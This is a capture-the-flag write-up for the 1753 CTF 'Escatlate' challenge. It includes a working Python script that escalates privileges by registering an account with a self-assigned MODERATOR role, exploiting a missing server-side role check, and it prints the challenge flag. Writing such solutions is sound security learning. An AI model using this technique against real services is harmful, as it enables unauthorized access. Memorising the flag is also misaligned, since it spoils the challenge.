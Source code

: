 # 1753 CTF - Escatlate Flag #1

This one is quite straightforward, we can get `MODERATOR` role easily due to the missing role check in server-side.

## Approach

```python
import requests
import random

url = "https://escatlate-52bc47e034fa.1753ctf.com/api/"

rnd = str(random.randint(100000, 999999))
print(rnd)

resp = requests.post(url + "register", json={
    "username": rnd,
    "password": rnd,
    "role": "MODERATOR",
})
print(resp.status_code, resp.text)

token = resp.json()["token"]

resp = requests.get(url + "message", headers={
    "X-Token": token
})
print(resp.text)  # {"message":"Hi Mod! Your flag is 1753c{0h_my_g0d_h0w_c0uld_1_m1ss_thi1_r0l3_ch3ck}"}
```

## Flag

```
1753c{0h_my_g0d_h0w_c0uld_1_m1ss_thi1_r0l3_ch3ck}
```
